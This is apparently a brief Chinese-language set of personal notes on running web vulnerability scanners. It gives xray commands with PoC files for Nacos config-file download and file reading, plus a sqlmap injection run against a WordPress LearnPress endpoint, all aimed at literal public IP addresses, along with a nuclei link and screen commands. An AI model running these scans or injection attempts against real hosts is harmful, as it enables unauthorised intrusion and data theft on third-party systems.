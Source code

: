

### 1、指定poc扫描
```shell
xray webscan  --poc ./nacos/nacosConfigFileDownload.yml --url 101.35.219.198:8848 --html-output  hhhhh.html

xray.exe webscan  --poc ./poc/weidezhishichanquan/weideFileRead.yml --url 182.92.185.96 --html-output 1.html

xray webscan  --poc ./poc/nacos/nacosConfigFileDownload.yml --url-file target.txt --html-output  hhhhh.html

python sqlmap.py -url http://72.10.167.139/wp-json/learnpress/v1/courses?c_only_fields=*
```

### 2、rad+xray
```

```
### 3、nuclei
https://xdym11235.com/archives/38.html#%E8%BF%90%E8%A1%8Cnuclei

```
screen -S my_scan
screen -r my_scan

```
